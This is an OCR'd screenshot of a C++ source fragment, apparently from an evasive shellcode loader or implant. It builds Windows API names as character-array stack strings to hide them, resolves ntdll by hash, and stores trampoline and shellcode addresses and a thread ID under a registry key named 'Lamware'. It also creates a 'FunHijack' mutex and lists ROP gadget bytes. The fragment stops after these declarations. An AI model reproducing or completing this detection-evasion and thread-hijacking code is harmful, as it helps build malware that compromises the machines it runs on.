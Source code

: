 ```cpp
    CHAR VirtualProtectName[] = { 'V', 'i', 'r', 't', 'u', 'a', 'l', 'P', 'r', 'o', 't', 'e', 'c', 't', '\0' };
    CHAR VirtualQueryName[] = { 'V', 'i', 'r', 't', 'u', 'a', 'l', 'Q', 'u', 'e', 'r', 'y', '\0' };
    CHAR ExitThreadName[] = { 'E', 'x', 'i', 't', 'T', 'h', 'r', 'e', 'a', 'd', '\0' };
    CHAR SleepName[] = { 'S', 'l', 'e', 'e', 'p', '\0' };

#ifdef FREE
    CHAR VirtualFreeName[] = { 'V', 'i', 'r', 't', 'u', 'a', 'l', 'F', 'r', 'e', 'e', '\0' };
#endif

    CHAR CreateThreadName[] = { 'C', 'r', 'e', 'a', 't', 'e', 'T', 'h', 'r', 'e', 'a', 'd', '\0' };
    CHAR WaitForSingleObjectName[] = { 'W', 'a', 'i', 't', 'F', 'o', 'r', 'S', 'i', 'n', 'g', 'l', 'e', 'O', 'b', 'j', 'e', 'c', 't', '\0' };
    CHAR GetCurrentThreadName[] = { 'G', 'e', 't', 'C', 'u', 'r', 'r', 'e', 'n', 't', 'T', 'h', 'r', 'e', 'a', 'd', '\0' };
    CHAR CreateMutexName[] = { 'C', 'r', 'e', 'a', 't', 'e', 'M', 'u', 't', 'e', 'x', 'W', '\0' };
    CHAR ReleaseMutexName[] = { 'R', 'e', 'l', 'e', 'a', 's', 'e', 'M', 'u', 't', 'e', 'x', '\0' };
    CHAR CloseHandleName[] = { 'C', 'l', 'o', 's', 'e', 'H', 'a', 'n', 'd', 'l', 'e', '\0' };

    CHAR RegOpenKeyName[] = { 'R', 'e', 'g', 'O', 'p', 'e', 'n', 'K', 'e', 'y', 'W', '\0' };
    CHAR RegSetValueName[] = { 'R', 'e', 'g', 'S', 'e', 't', 'V', 'a', 'l', 'u', 'e', 'E', 'x', 'W', '\0' };
    CHAR RegGetValueName[] = { 'R', 'e', 'g', 'G', 'e', 't', 'V', 'a', 'l', 'u', 'e', 'W', '\0' };
    CHAR RegCloseKeyName[] = { 'R', 'e', 'g', 'C', 'l', 'o', 's', 'e', 'K', 'e', 'y', '\0' };

    LONG result;
    HKEY hKey;
    WCHAR regKey[] = { 'S', 'O', 'F', 'T', 'W', 'A', 'R', 'E', '\\', 'L', 'a', 'm','w','a', 'r', 'e', '\0' };
    WCHAR trpValue[] = { 'T', 'r', 'a', 'm', 'p', 'o', 'l', 'i', 'n', 'e', 'A', 'd', 'd', 'r', 'e', 's','s', '\0' };
    WCHAR shValue[] = { 'S', 'C', 'o', 'd', 'e', 'A', 'd', 'd', 'r', 'e', 's','s', '\0' };
    WCHAR shsValue[] = { 'S', 'C', 'o', 'd', 'e', 'S', 'i', 'z', 'e', '\0' };
    WCHAR tiValue[] = { 'T', 'h', 'r', 'e', 'a', 'd', 'I', 'd', '\0' };

    WCHAR mutexName[] = { 'F', 'u', 'n', 'H', 'i', 'j', 'a', 'c', 'k', '\0' };

    LPCTSTR value;

    // DLL to load via LoadLibraryA
    WCHAR msvcrtdllName[] = { 'm', 's', 'v', 'c', 'r', 't', '.', 'd', 'l', 'l', '\0' };
    WCHAR advapi32dllName[] = { 'a', 'd', 'v', 'a', 'p', 'i', '3', '2', '.', 'd', 'l', 'l', '\0' };

    // Symbols from MSVCRT
    CHAR memcpyName[] = { 'm', 'e', 'm', 'c', 'p', 'y', '\0' };
    CHAR memcmpName[] = { 'm', 'e', 'm', 'c', 'm', 'p', '\0' };
    CHAR memsetName[] = { 'm', 'e', 'm', 's', 'e', 't', '\0' };
#ifdef _DEBUG
    CHAR printfName[] = { 'p', 'r', 'i', 'n', 't', 'f', '\0' };
#endif

    // Gadgets
    UCHAR POP_RAX_RET[] = {0x58, 0xc3};
    UCHAR POP_RCX_RET[] = {0x59, 0xc3};
    UCHAR POP_RDX_RET[] = {0x5A, 0xc3};
    UCHAR POP_R8__RET[] = {0x41, 0x58, 0xc3};
    UCHAR POP_RSP_RET[] = {0x5C, 0xc3};
    UCHAR RET[] = {0xc3};

    // ntdll
    ntdll = (HMODULE)GetModule(NTDLL_HASH);

    // kernel32.dll exports
```